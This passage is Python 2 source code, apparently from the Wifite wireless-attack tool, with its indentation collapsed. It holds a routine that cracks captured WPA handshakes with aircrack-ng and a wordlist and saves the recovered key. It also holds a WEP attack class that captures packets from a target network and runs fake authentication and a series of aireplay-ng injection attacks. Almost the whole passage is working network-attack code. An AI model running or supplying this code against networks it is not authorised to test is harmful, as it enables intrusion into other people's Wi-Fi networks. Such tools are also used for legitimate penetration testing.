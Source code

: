 using pyrit or cowpatty or oclhashcat, they can do so manually. """ if RUN_CONFIG.WPA_DICTIONARY == '': print R + ' [!]' + O + ' no WPA dictionary found! use -dict <file> command-line argument' + W return False print GR + ' [0:00:00]' + W + ' cracking %s with %s' % (G + capfile.ssid + W, G + 'aircrack-ng' + W) start_time = time.time() cracked = False remove_file(RUN_CONFIG.temp + 'out.out') remove_file(RUN_CONFIG.temp + 'wpakey.txt') cmd = ['aircrack-ng', '-a', '2', # WPA crack '-w', RUN_CONFIG.WPA_DICTIONARY, # Wordlist '-l', RUN_CONFIG.temp + 'wpakey.txt', # Save key to file '-b', capfile.bssid, # BSSID of target capfile.filename] proc = Popen(cmd, stdout=open(RUN_CONFIG.temp + 'out.out', 'a'), stderr=DN) try: kt = 0 # Keys tested kps = 0 # Keys per second while True: time.sleep(1) if proc.poll() != None: # aircrack stopped if os.path.exists(RUN_CONFIG.temp + 'wpakey.txt'): # Cracked inf = open(RUN_CONFIG.temp + 'wpakey.txt') key = inf.read().strip() inf.close() RUN_CONFIG.WPA_FINDINGS.append('cracked wpa key for "%s" (%s): "%s"' % ( G + capfile.ssid + W, G + capfile.bssid + W, C + key + W)) RUN_CONFIG.WPA_FINDINGS.append('') t = Target(capfile.bssid, 0, 0, 0, 'WPA', capfile.ssid) t.key = key RUN_CONFIG.save_cracked(t) print GR + '\n [+]' + W + ' cracked %s (%s)!' % (G + capfile.ssid + W, G + capfile.bssid + W) print GR + ' [+]' + W + ' key: "%s"\n' % (C + key + W) cracked = True else: # Did not crack print R + '\n [!]' + R + 'crack attempt failed' + O + ': passphrase not in dictionary' + W break inf = open(RUN_CONFIG.temp + 'out.out', 'r') lines = inf.read().split('\n') inf.close() outf = open(RUN_CONFIG.temp + 'out.out', 'w') outf.close() for line in lines: i = line.find(']') j = line.find('keys tested', i) if i != -1 and j != -1: kts = line[i + 2:j - 1] try: kt = int(kts) except ValueError: pass i = line.find('(') j = line.find('k/s)', i) if i != -1 and j != -1: kpss = line[i + 1:j - 1] try: kps = float(kpss) except ValueError: pass print "\r %s %s keys tested (%s%.2f keys/sec%s) " % \ (GR + sec_to_hms(time.time() - start_time) + W, G + add_commas(kt) + W, G, kps, W), stdout.flush() except KeyboardInterrupt: print R + '\n (^C)' + O + ' WPA cracking interrupted' + W send_interrupt(proc) try: os.kill(proc.pid, SIGTERM) except OSError: pass return cracked def add_commas(n): """ Receives integer n, returns string representation of n with commas in thousands place. I'm sure there's easier ways of doing this... but meh. """ strn = str(n) lenn = len(strn) i = 0 result = '' while i < lenn: if (lenn - i) % 3 == 0 and i != 0: result += ',' result += strn[i] i += 1 return result ################# # WEP FUNCTIONS # ################# class WEPAttack(Attack): def __init__(self, iface, target, clients, config): self.iface = iface self.target = target self.clients = clients self.RUN_CONFIG = config def RunAttack(self): ''' Abstract method for dispatching the WEP crack ''' self.attack_wep() def EndAttack(self): ''' Abstract method for ending the WEP attack ''' pass def attack_wep(self): """ Attacks WEP-encrypted network. Returns True if key was successfully found, False otherwise. """ if self.RUN_CONFIG.WEP_TIMEOUT <= 0: self.RUN_CONFIG.WEP_TIMEOUT = -1 total_attacks = 6 # 4 + (2 if len(clients) > 0 else 0) if not self.RUN_CONFIG.WEP_ARP_REPLAY: total_attacks -= 1 if not self.RUN_CONFIG.WEP_CHOPCHOP: total_attacks -= 1 if not self.RUN_CONFIG.WEP_FRAGMENT: total_attacks -= 1 if not self.RUN_CONFIG.WEP_CAFFELATTE: total_attacks -= 1 if not self.RUN_CONFIG.WEP_P0841: total_attacks -= 1 if not self.RUN_CONFIG.WEP_HIRTE: total_attacks -= 1 if total_attacks <= 0: print R + ' [!]' + O + ' unable to initiate WEP attacks: no attacks are selected!' return False remaining_attacks = total_attacks print ' %s preparing attack "%s" (%s)' % \ (GR + sec_to_hms(self.RUN_CONFIG.WEP_TIMEOUT) + W, G + self.target.ssid + W, G + self.target.bssid + W) file_prefix = os.path.join(self.RUN_CONFIG.temp, 'wep') wepkey_file = os.path.join(self.RUN_CONFIG.temp, 'wepkey.txt') csv_file = file_prefix + '-01.csv' cap_file = file_prefix + '-01.cap' remove_airodump_files(file_prefix) remove_file(wepkey_file) # Start airodump process to capture packets cmd_airodump = ['airodump-ng', '-w', file_prefix, # Output file name (wep-01.cap, wep-01.csv) '-c', self.target.channel, # Wireless channel '--write-interval', '1', '--bssid', self.target.bssid, self.iface] proc_airodump = Popen(cmd_airodump, stdout=DN, stderr=DN) proc_aireplay = None proc_aircrack = None successful = False # Flag for when attack is successful started_cracking = False # Flag for when we have started aircrack-ng client_mac = '' # The client mac we will send packets to/from total_ivs = 0 ivs = 0 last_ivs = 0 for attack_num in xrange(0, 6): # Skip disabled attacks if attack_num == 0 and not self.RUN_CONFIG.WEP_ARP_REPLAY: continue elif attack_num == 1 and not self.RUN_CONFIG.WEP_CHOPCHOP: continue elif attack_num == 2 and not self.RUN_CONFIG.WEP_FRAGMENT: continue elif attack_num == 3 and not self.RUN_CONFIG.WEP_CAFFELATTE: continue elif attack_num == 4 and not self.RUN_CONFIG.WEP_P0841: continue elif attack_num == 5 and not self.RUN_CONFIG.WEP_HIRTE: continue remaining_attacks -= 1 try: if self.wep_fake_auth(self.iface, self.target, sec_to_hms(self.RUN_CONFIG.WEP_TIMEOUT)): # Successful fake auth client_mac = self.RUN_CONFIG.THIS_MAC elif not self.RUN_CONFIG.WEP_IGNORE_FAKEAUTH: send_interrupt(proc_aireplay) send_interrupt(proc_airodump) print R + ' [!]' + O + ' unable to fake-authenticate with target' print R + ' [!]' + O + ' to skip this speed bump, select "ignore-fake-auth" at command-line' return False remove_file(os.path.join(self.RUN_CONFIG.temp, 'arp.cap')) # Generate the aireplay-ng arguments based on attack_num and other params cmd = self.get_aireplay_command(self.iface, attack_num, self.target, self.clients, client_mac) if cmd == '': continue if proc_aireplay != None: send_interrupt(proc_aireplay)